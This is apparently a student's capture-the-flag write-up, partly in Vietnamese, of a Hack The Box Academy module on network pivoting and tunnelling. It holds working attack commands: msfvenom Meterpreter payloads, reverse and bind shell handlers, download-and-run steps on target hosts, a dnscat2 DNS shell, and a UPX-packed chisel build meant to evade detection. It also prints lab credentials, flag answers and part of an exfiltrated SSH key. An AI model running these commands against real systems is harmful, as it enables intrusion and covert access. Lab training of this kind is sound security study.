


# The Networking Behind Pivoting

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Cheat Sheet

+ 1  Reference the Using ifconfig output in the section reading. Which NIC is assigned a public IP address?

```zsh
0xsrt@htb[/htb]$ ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 134.122.100.200  netmask 255.255.240.0  broadcast 134.122.111.255
        inet6 fe80::e973:b08d:7bdf:dc67  prefixlen 64  scopeid 0x20<link>
        ether 12:ed:13:35:68:f5  txqueuelen 1000  (Ethernet)
        RX packets 8844  bytes 803773 (784.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5698  bytes 9713896 (9.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
+ 1  Reference the Routing Table on Pwnbox output shown in the section reading. If a packet is destined for a host with the IP address of 10.129.10.25, out of which NIC will the packet be forwarded?

tun0
+ 1  Reference the Routing Table on Pwnbox output shown in the section reading. If a packet is destined for www.hackthebox.com what is the IP address of the gateway it will be sent to?
178.62.64.1

# Dynamic Port Forwarding with SSH and SOCKS Tunneling

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.202.64 (ACADEMY-PIVOTING-LINUXPIV)   

Life Left: 167 minute(s)  Terminate 

 SSH to 10.129.202.64 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"

+ 0  You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)

```zsh
ubuntu@WEB01:~$ ifconfig | grep inet | grep -v 'inet6' | wc -l
3
```

+ 0  Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.

```zsh
❯ tail -n 4 /etc/proxychains4.conf
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
socks5  127.0.0.1 1080
```

```zsh
ssh -D 1080 ubuntu@$ip
```

```zsh
proxychains4 xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123 /dynamic-resolution
```


# Remote/Reverse Port Forwarding with SSH

Answer the question(s) below to complete this Section and earn cubes!

 SSH to  with user "ubuntu" and password "HTB_@cademy_stdnt!"

+ 0  Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)

Private IP


+ 0  What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x)

It's alway 0.0.0.0

Giờ tiến hành lấy reverse shell của windows nhờ vào reverse port forwarding

Quy trình như sau:
- Generating payload
- Meterpreter listen on 8000 VM
- Reverse  port forward  8080 on ubuntu --> 8000 VM
- Transfering Payload VM --> Ubuntu --> Windows
- Reverse Windows shell --> 8080 ubuntu --> 8000 (meterpreter) VM


### Generating payload

```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 LPORT=8080 -f exe -o backup.exe
```

### Meterpreter listen on 8000 VM


```zsh
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8000 
```

### Reverse  port forward  8080 on ubuntu --> 8000 VM

```zsh
ssh -R 8080:localhost:8000 ubuntu@$ip
```

Trong bài học, chúng ta đã biết trước địa chỉ ip của Windows là 172.16.5.19, do vậy chúng ta không cần check nữa.

Tiếp theo ta sẽ tải payload sang ubuntu rồi tải tiếp payload sang windows.

### Transfering Payload

Dymanic forwarding:

```zsh
ssh -D 1080 ubuntu@10.129.241.73
```

rdp with proxychains4

```zsh
proxychains4 xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123 /dynamic-resolution
```

On ubuntu:
```zsh
ubuntu@WEB01:~$ python3 -m http.server 8765
```

On Windows:
```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8765/backup.exe" -OutFile "C:\Users\Public\backup.exe"
```

### Reverse Windows shell --> 8080 ubuntu --> 8000 (meterpreter) VM


```zsh
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8000 
[*] Sending stage (203846 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1:50736) at 2025-05-10 04:00:05 -0400

meterpreter > sysinfo
Computer        : DC01
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 13
Meterpreter     : x64/windows
meterpreter > 
```

# Meterpreter Tunneling & Port Forwarding

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.241.73 (ACADEMY-PIVOTING-LINUXPIV)   

 SSH to 10.129.241.73 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"

On VM

```zsh
ssh ubuntu@10.129.241.73
```

```zsh
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=8888 -f elf -o backup

python3 -m http.server 9981
```

```zsh
❯ sudo msfconsole -q
[sudo] password for kali: 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8888 
```

On ubuntu

```zsh
wget http://10.10.14.89:9981/backup
chmod +x backup
./backup
```

We got the reverse shell
```zsh
[*] Started reverse TCP handler on 0.0.0.0:8888 
[*] Sending stage (3045380 bytes) to 10.129.241.73
[*] Meterpreter session 1 opened (10.10.14.89:8888 -> 10.129.241.73:56540) at 2025-05-10 05:03:09 -0400

meterpreter > sysinfo
Computer     : 10.129.241.73
OS           : Ubuntu 20.04 (Linux 5.4.0-91-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

+ 0  What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)

Use `ifconfig` we can see private ip and subnet mask, the range ip is `172.16.5.0/23`


255.255 = 8+8 bits; 254 = 2^7
=7bits => lends 16+7=23 => `172.16.5.0/23`

```zsh
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
[*] Performing ping sweep for IP range 172.16.5.0/23
[+]     172.16.5.19 host found
[+]     172.16.5.129 host found
```

+ 0  Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format: x.x.x.x/x.x.x.x) 172.16.5.0/255.255.254.0

```zsh
meterpreter > run autoroute -s 172.16.5.0/23
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.241.73
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.5.0         255.255.254.0      Session 1
```

Nếu đã cấu hình autoroute thì không cần cấu hình socks proxy như bên dưới nữa không cần thông qua proxychains.

Test nmap:

```zsh
nmap 172.16.5.19 -p3389 -sT -v -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 05:30 EDT
Initiating Parallel DNS resolution of 1 host. at 05:30
Completed Parallel DNS resolution of 1 host. at 05:30, 0.06s elapsed
Initiating Connect Scan at 05:30
Scanning 172.16.5.19 [1 port]
Completed Connect Scan at 05:30, 2.00s elapsed (1 total ports)
Nmap scan report for 172.16.5.19
Host is up.

PORT     STATE    SERVICE
3389/tcp filtered ms-wbt-server

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.09 seconds
```


#### Configuring MSF's SOCKS Proxy

```zsh
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
```

Test nmap:

```zsh
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
<snip>
PORT     STATE    SERVICE
3389/tcp filtered ms-wbt-server
```

#### Port Forwarding

Chúng ta có thể forward cổng 7777 trên local sang 3389 của 172.16.5.19

```zsh
meterpreter > portfwd add -l 7777 -p 3389 -r 172.16.5.19
[*] Forward TCP relay created: (local) :7777 -> (remote) 172.16.5.19:3389
```

```zsh
xfreerdp3 /v:localhost:7777 /u:victor /p:pass@123
```

Lưu ý cách này và auto route không ổn định như cách dùng socks proxy.

#### Reverse Port Forwarding

```zsh
meterpreter > portfwd add -R -l 12345 -p 4444 -L 10.10.14.89
[*] Reverse TCP relay created: (remote) [::]:4444 -> (local) 10.10.14.89:12345
```

```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 LPORT=4444 -f exe -o script.exe
```

```zsh
msf6 exploit(multi/handler) > options

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT     12345             yes       The listen port
```

```zsh
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:12345 
[*] Sending stage (203846 bytes) to 10.10.14.89
[*] Meterpreter session 2 opened (10.10.14.89:12345 -> 10.10.14.89:34867) at 2025-05-10 06:34:40 -0400

meterpreter > sysinfor
[-] Unknown command: sysinfor. Did you mean sysinfo? Run the help command for more details.
meterpreter > sysinfo
Computer        : DC01
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 13
Meterpreter     : x64/windows
```

# Socat Redirection with a Reverse Shell

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.254.6 (ACADEMY-PIVOTING-LINUXPIV)   

 SSH to 10.129.254.6 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"

+ 1  SSH tunneling is required with Socat. True or False?
False

On VM
```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backup.exe LPORT=4444

python3 -m http.server 9981
```


```zsh
sudo msfconsole -q
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 12345
msf6 exploit(multi/handler) > run
```


Sang máy Windows:

```zsh
ssh -D 1080 ubuntu@10.129.254.6
```

```zsh
proxychains xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123
```

On Ubuntu

```zsh
ubuntu@WEB01:~$ wget http://10.10.14.89:9981/backup.exe
ubuntu@WEB01:~$ python3 -m http.server 8765
ubuntu@WEB01:~$ socat TCP4-LISTEN:4444,fork TCP4:10.10.14.89:12345
```

Trên máy windows:
```powershell
curl -o backup.exe http://172.16.5.129:8765/backup.exe
.\backup.exe
```


Kết nối thành công:
```zsh
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:12345 
[*] Sending stage (203846 bytes) to 10.129.254.6
[*] Meterpreter session 1 opened (10.10.14.89:12345 -> 10.129.254.6:46268) at 2025-05-10 10:32:22 -0400

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

# Socat Redirection with a Bind Shell

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.253.180 (ACADEMY-PIVOTING-LINUXPIV)   

 SSH to 10.129.253.180 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"

+ 1  What Meterpreter payload did we use to catch the bind shell session? (Submit the full path as the answer)

`windows/x64/meterpreter/bind_tcp`

Đầu tiên trên máy VM:

Thiết lập Dynamic forward:

```zsh
ssh -D 1080 ubuntu@172.16.5.129
```

Tạo payload và chuyển sang máy ubuntu:

```zsh
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=4444

python3 -m http.server 9981
```

Khởi chạy msfconsole và lắng nghe:

```zsh
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set lport 12345
msf6 exploit(multi/handler) > set rhost 10.129.253.180
msf6 exploit(multi/handler) > run
```

Trên máy ubuntu:

```zsh
ubuntu@WEB01:~$ wget http://10.10.14.89:9981/backupscript.exe

python3 -m http.server 8765
```


Từ VM rdp sang Windows:

```zsh
proxychains xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123
ubuntu@WEB01:~$ socat TCP4-LISTEN:12345,fork TCP4:172.16.5.19:4444
```

Trên máy windows:

```powershell
curl -o backup.exe http://172.16.5.129:8765/backupscript.exe
.\backup.exe
```


Kết quả:

```zsh
msf6 exploit(multi/handler) > run
[*] Started bind TCP handler against 10.129.253.180:12345
[*] Sending stage (203846 bytes) to 10.129.253.180
[*] Meterpreter session 1 opened (10.10.14.89:43063 -> 10.129.253.180:12345) at 2025-05-10 14:11:15 -0400

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

# SSH for Windows: plink.exe
#### Optional Exercises

Challenge your understanding of the Module content and answer the optional question(s) below. These are considered supplementary content and are not required to complete the Module. You can reveal the answer at any time to check your work.

Target(s): 10.129.253.180 (ACADEMY-PIVOTING-LINUXPIV)   

Life Left: 146 minute(s)  Terminate 

Attempt to use Plink from a Windows-based attack host. Set up a proxy connection and RDP to the Windows target (172.16.5.19) with "victor:pass@123" on the internal network. When finished, submit "I tried Plink" as the answer.


Connect to hackthebox academy via openvpn


Test ping:


Cấu hình trong proxier:


```powershell
plink ssh -D 1080 ubuntu@10.129.250.128
```


Dùng remote Desktop để kết nối đến 172.16.5.19


# SSH Pivoting with Sshuttle

#### Optional Exercises

Challenge your understanding of the Module content and answer the optional question(s) below. These are considered supplementary content and are not required to complete the Module. You can reveal the answer at any time to check your work.

Target(s): 10.129.10.207 (ACADEMY-PIVOTING-LINUXPIV)   

Life Left: 118 minute(s)  Terminate 

Try using sshuttle from Pwnbox to connect via RDP to the Windows target (172.16.5.19) with "victor:pass@123" on the internal network. Once completed type: "I tried sshuttle" as the answer.


Đầu tiên cài đặt sshuttle:

```zsh
sudo apt install sshuttle -y
```

Tiếp theo chạy sshuttle:

```zsh
sudo sshuttle -r ubuntu@10.129.10.207 172.16.5.0/23 -v
```


Kết nối đến rdp:

```zsh
xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123
```


Test với nmap:

```zsh
❯ nmap -sT -p 3389 172.16.5.19 -v -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-11 02:30 EDT
Initiating Parallel DNS resolution of 1 host. at 02:30
Completed Parallel DNS resolution of 1 host. at 02:30, 0.05s elapsed
Initiating Connect Scan at 02:30
Scanning 172.16.5.19 [1 port]
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 02:30, 0.00s elapsed (1 total ports)
Nmap scan report for 172.16.5.19
Host is up (0.00015s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.07 seconds
```


# Web Server Pivoting with Rpivot

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.248.191 (ACADEMY-PIVOTING-LINUXPIV)   


+ 1  From which host will rpivot's server.py need to be run from? The Pivot Host or Attack Host? Submit Pivot Host or Attack Host as the answer.

 Attack host

+ 1  From which host will rpivot's client.py need to be run from? The Pivot Host or Attack Host. Submit Pivot Host or Attack Host as the answer.

Pivot Host

 SSH to 10.129.248.191 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"

+ 1  Using the concepts taught in this section, connect to the web server on the internal network. Submit the flag presented on the home page as the answer.

Download rpivot:

```zsh
git clone https://github.com/klsecservices/rpivot.git
```

Upload to ubuntu:
```zsh
scp -r rpivot ubuntu@10.129.248.191:/home/ubuntu/
```


On Ubuntu:

```zsh
ubuntu@WEB01:~/rpivot$ python2 client.py --server-ip 10.10.14.250 --server-port 9999
Backconnecting to server 10.10.14.250 port 9999
```

On VM:
```zsh
python2 server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0
New connection from host 10.129.248.191, source port 51898
```

Test connection and get flag:

```zsh
proxychains firefox 172.16.5.135:80

#or

proxychains curl -socks5 127.0.0.1:1080 172.16.5.135:80
```


### My concludsion: This tool like shit! Don't use it.


# Port Forwarding with Windows Netsh

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.42.198 (ACADEMY-PIVOTING-WIN10PIV)   

Life Left: 115 Terminate 

 RDP to 10.129.42.198 (ACADEMY-PIVOTING-WIN10PIV) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 1  Using the concepts covered in this section, take control of the DC (172.16.5.19) using xfreerdp by pivoting through the Windows 10 target host. Submit the approved contact's name found inside the "VendorContacts.txt" file located in the "Approved Vendors" folder on Victor's desktop (victor's credentials: victor:pass@123) . (Format: 1 space, not case-sensitive)

```zsh
xfreerdp3 /v:10.129.42.198 /u:htb-student /p:'HTB_@cademy_stdnt!' 
```

```powershell
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.19
```


Trên VM:

```zsh
xfreerdp3 /v:10.129.42.198:8080 /u:victor /p:pass@123
```


# DNS Tunneling with Dnscat2

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.254.253 (ACADEMY-PIVOTING-WIN10PIV)   

Life Left: 147 minute(s)  Terminate 

 RDP to 10.129.254.253 (ACADEMY-PIVOTING-WIN10PIV) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 1  Using the concepts taught in this section, connect to the target and establish a DNS Tunnel that provides a shell session. Submit the contents of C:\Users\htb-student\Documents\flag.txt as the answer.

Trên máy VM:

- Tải xuống và chạy dnscat2 server:

```zsh
git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server

sudo ruby dnscat2.rb --dns host=10.10.14.250,port=53,domain=inlanefreight.local --no-cache
```


Tải xuống và chuẩn bị chuyển module dnscat2 sang máy windows:

```zsh
git clone https://github.com/lukebaggett/dnscat2-powershell.git

cd dnscat2-powershel

python3 -m http.server 9981
```

```zsh
xfreerdp3 /v:10.129.254.253 /u:htb-student /p:'HTB_@cademy_stdnt!'
```

Trên máy windows:
```powershell
curl -o dnscat2.ps1 http://10.10.14.250:9981/dnscat2.ps1
```


Kết nối dnscat về VM:

```powershell
Start-Dnscat2 -DNSserver 10.10.14.250 -Domain inlanefreight.local -PreSharedSecret 005f2147b5d88c795cb33b5e7665260c -Exec cmd
```

Trên máy VM sau khi nhận được shell:

```powershell
C:\Users\htb-student\Downloads>
exec (OFFICEMANAGER) 1> type C:\Users\htb-student\Documents\flag.txt
exec (OFFICEMANAGER) 1> type C:\Users\htb-student\Documents\flag.txt
AC@tinth3Tunnel
C:\Users\htb-student\Downloads>
```

# SOCKS5 Tunneling with Chisel
#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.248.118 (ACADEMY-PIVOTING-LINUXPIV)   

Life Left: 117 minute(s)  Terminate 

 SSH to 10.129.248.118 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"

+ 1  Using the concepts taught in this section, connect to the target and establish a SOCKS5 Tunnel that can be used to RDP into the domain controller (172.16.5.19, victor:pass@123). Submit the contents of C:\Users\victor\Documents\flag.txt as the answer.

Trên kali linux đã có sẵn phiên bản linux của chisel, chúng ta chỉ cần copy và chuyển nó sang ubuntu. Tuy nhiên có phương pháp build bằng golang và giảm nhẹ dung lượng của nó phù hợp với việc môi trường có kết nối không ổn định hoặc để tránh bị phát hiện:

Trên máy VM:
```zsh
❯ du -hs chisel
15M     chisel

❯ go build ldflags="-s -w"
malformed import path "ldflags=-s -w": invalid char '='

❯ go build -ldflags="-s -w"

❯ du -hs chisel
9.7M    chisel

❯ upx brute chisel

❯ du -hs chisel
3.8M    chisel


❯ python3 -m http.server 9981
Serving HTTP on 0.0.0.0 port 9981 (http://0.0.0.0:9981/) ...
10.129.248.118 - - [11/May/2025 05:04:21] "GET /chisel HTTP/1.1" 200 -

```

Chạy chisel trên máy VM:

```zsh
./chisel client -v 10.129.248.118:1234 socks
```


Trên máy ubuntu:

```zsh
ubuntu@WEB01:~$ wget http://10.10.14.250:9981/chisel
ubuntu@WEB01:~$ chmod +x chisel
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```


## Chisel Reverse Pivot

Làm ngược lại bằng cách lắng nghe trên VM:

```zsh
sudo ./chisel server --reverse -v -p 1234 --socks5
```

```zsh
ubuntu@WEB01:~$ ./chisel client -v 10.10.14.250:1234  R:socks
```


# ICMP Tunneling with SOCKS

```zsh
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng
sudo ./autogen.sh
```

```zsh
scp -r ptunnel-ng  ubuntu@10.129.248.118:/home/ubuntu/
```

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.248.118 (ACADEMY-PIVOTING-LINUXPIV)   

Life Left: 68 Terminate 

 SSH to 10.129.248.118 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"

+ 1  Using the concepts taught thus far, connect to the target and establish an ICMP tunnel. Pivot to the DC (172.16.5.19, victor:pass@123) and submit the contents of C:\Users\victor\Downloads\flag.txt as the answer.

```zsh
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.248.118 -R22
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Incoming tunnel request from 10.10.14.250.
[inf]: Starting new session to 10.129.248.118:22 with ID 44294
```

On VM:

```zsh
sudo ./ptunnel-ng -p10.129.248.118 -l2222 -r10.129.248.118 -R22
```

```zsh
ssh -D 1080 -p2222 -lubuntu 127.0.0.1
```

```zsh
proxychains xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123
```


# RDP and SOCKS Tunneling with SocksOverRDP

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.42.198 (ACADEMY-PIVOTING-WIN10PIV)   

Life Left: 117 minute(s)  Terminate 

 RDP to 10.129.42.198 (ACADEMY-PIVOTING-WIN10PIV) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 1  Use the concepts taught in this section to pivot to the Windows server at 172.16.6.155 (jason:WellConnected123!). Submit the contents of Flag.txt on Jason's Desktop.


Tải về tài nguyên:

```zsh
wget https://github.com/nccgroup/SocksOverRDP/releases/download/v1.0/SocksOverRDP-x64.zip

wget https://www.proxifier.com/download/ProxifierPE.zip

python3 -m http.server 9981
```

```zsh
xfreerdp3 /v:10.129.42.198 /u:htb-student /p:'HTB_@cademy_stdnt!'
```

Trên máy Windows:

```powershell
curl -o SocksOverRDP-x64.zip http://10.10.15.9:9981/SocksOverRDP-x64.zip
curl -o ProxifierPE.zip http://10.10.15.9:9981/ProxifierPE.zip
```


Giải nén ra:


Có 2 thứ cản đường chúng ta, thứ nhất là Windows Deffender


Thứ hai là cái chết tiệt này:


Chạy cmd với quyền admin, sau đó vào thư mục giải nén của SockOverRDP và chạy lệnh:

```powershell
regsvr32.exe SocksOverRDP-Plugin.dll
```


Vào proxier, vào profile --> proxy server cấu hình như sau:


Chạy SockOverRDP với quyền admin.

Từ máy htb-student, rdp sang DC01 thông qua mstsc.exe (victor:pass@123) và chạy SockOverRDP (copy sang) với quyền admin.


Trên máy DC01/victor:


Tiếp theo vào rdp trên máy htb-student kết nối sang 172.16.6.155


# Skills Assessment


## Scenario

A team member started a Penetration Test against the Inlanefreight environment but was moved to another project at the last minute. Luckily for us, they left a `web shell` in place for us to get back into the network so we can pick up where they left off. We need to leverage the web shell to continue enumerating the hosts, identifying common services, and using those services/protocols to pivot into the internal networks of Inlanefreight. Our detailed objectives are `below`:

---

## Objectives

- Start from external (`Pwnbox or your own VM`) and access the first system via the web shell left in place.
- Use the web shell access to enumerate and pivot to an internal host.
- Continue enumeration and pivoting until you reach the `Inlanefreight Domain Controller` and capture the associated `flag`.
- Use any `data`, `credentials`, `scripts`, or other information within the environment to enable your pivoting attempts.
- Grab `any/all` flags that can be found.

**Note:**

Keep in mind the tools and tactics you practiced throughout this module. Each one can provide a different route into the next pivot point. You may find a hop to be straightforward from one set of hosts, but that same tactic may not work to get you to the next. While completing this skills assessment, we encourage you to take proper notes, draw out a map of what you know of already, and plan out your next hop. Trying to do it on the fly will prove `difficult` without having a visual to reference.

---

## Connection Info

`Foothold`:

`IP`: 10.129.229.129 (ACADEMY-PIVOT-WEB01)

You will find the web shell pictured below when you browse to support.inlanefreight.local or the target IP above.


#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.229.129 (ACADEMY-PIVOT-WEB01)   

Life Left: 177 minute(s)  Terminate 

+ 1  Once on the webserver, enumerate the host for credentials that can be used to start a pivot or tunnel to another host in the network. In what user's directory can you find the credentials? Submit the name of the user as the answer.

 Submit: webadmin

+ 1  Submit the credentials found in the user's home directory. (Format: user:password)

 Submit: mlefay:Plain Human work!

+ 1  Enumerate the internal network and discover another active host. Submit the IP address of that host as the answer.

 Submit

+ 1  Use the information you gathered to pivot to the discovered host. Submit the contents of C:\Flag.txt as the answer.

 Submit: S1ngl3-Piv07-3@sy-Day


+ 1  In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?

 Submit: vfrank


+ 1  For your next hop enumerate the networks and then utilize a common remote access solution to pivot. Submit the C:\Flag.txt located on the workstation.


 Submit: N3tw0rk-H0pp1ng-f0R-FuN

+ 1  Submit the contents of C:\Flag.txt located on the Domain Controller.

Submit: 3nd-0xf-Th3-R@inbow!
### Write up

Ở đây, khi truy cập vào webshell, ta tiến hành liệt kê đơn giản và phát hiện trong thư mục của người dùng `webadmin` có các thông tin hữu ích như khóa ssh và một thông tin đăng nhập: `mlefay:Plain Human work!`


Tiến hành lấy id-rsa về:



```zsh
>....                                                                                                                                                                                      a1F4eWZHOU9JeDNBV1V6NnJHb05rL05Cb1BEeWN3NitZClY4YzFOVkFKYWtJRFJkV1E3ZVNZQ2lW
REdwems5c0N2aldHVlIxVXJBQUFGbUR1S2JPYzdpbXpuQUFBQUIzTnphQzF5YzIKRUFBQUdCQUw1
dlFVNmJPaXo4TitmclYzaFFNUDFpQWY1TERTTDdlWWplMWxFWFh4WlhLZms5M3dTbVF4MmprTlla
ZGZzUAp6SnhmckR2eXVBeHVzWFYvcWF4bTA2LzFpenFCQ3dydmlaM2xHZDEvR28xUDAxZ2QzSzJI
SjRoVkU0RWo3cWM3Y1dhV1UrClZCWTZ6ZzlkQVVocHRSM2lPWnRtcW5HV3NiNStCclY3U1V6VGJJ
